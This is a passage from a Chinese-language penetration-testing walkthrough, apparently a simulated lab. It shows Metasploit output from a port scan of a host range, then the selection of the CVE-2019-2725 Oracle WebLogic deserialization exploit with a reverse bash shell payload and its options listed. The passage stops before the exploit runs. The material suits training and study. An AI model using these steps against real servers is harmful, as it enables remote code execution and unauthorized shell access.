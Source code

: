```metasploit
[*] 192.171.84.2-5:       - Error: 192.171.84.3: ActiveRecord::ConnectionTimeoutError could not obtain a connection from the pool within 5.000 seconds (waited 5.006 seconds); all pooled connections were in use
[*] 192.171.84.2-5:       - Scanned 1 of 4 hosts (25% complete)
[*] 192.171.84.2-5:       - Scanned 1 of 4 hosts (25% complete)
[+] 192.171.84.4:         - 192.171.84.4:8080 - TCP OPEN
[*] 192.171.84.2-5:       - Scanned 3 of 4 hosts (75% complete)
[*] 192.171.84.2-5:       - Scanned 4 of 4 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/portscan/tcp) >
```

模拟完成步骤2之后，为了节省时间，直接通过查询漏洞exploit的方式，通过Metasploit配合与之前一样的payload，一次性向3台主机发送exploit（为了省事直接`192.171.84.2-5`了，`192.171.84.4`并不是目标主机所以除了exploit失败也不会有太大问题）：

```metasploit
msf6 auxiliary(scanner/portscan/tcp) > search cve-2019-2725

Matching Modules
================

   #  Name                                                          Disclosure Date  Rank       Check  Description
   -  ----                                                          ---------------  ----       -----  -----------
   0  exploit/multi/misc/weblogic_deserialize_asyncresponseservice  2019-04-23       excellent  Yes    Oracle Weblogic Server Deserialization RCE - AsyncResponseService


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/misc/weblogic_deserialize_asyncresponseservice

msf6 auxiliary(scanner/portscan/tcp) > use 0
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > options

Module options (exploit/multi/misc/weblogic_deserialize_asyncresponseservice):

   Name       Current Setting               Required  Description
   ----       ---------------               --------  -----------
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                   yes       The target host(s), see https://docs.metasploit.com/docs/using-m
                                                      etasploit/basics/using-metasploit.html
   RPORT      7001                          yes       The target port (TCP)
   SSL        false                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /_async/AsyncResponseService  yes       URL to AsyncResponseService
   VHOST                                    no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix
```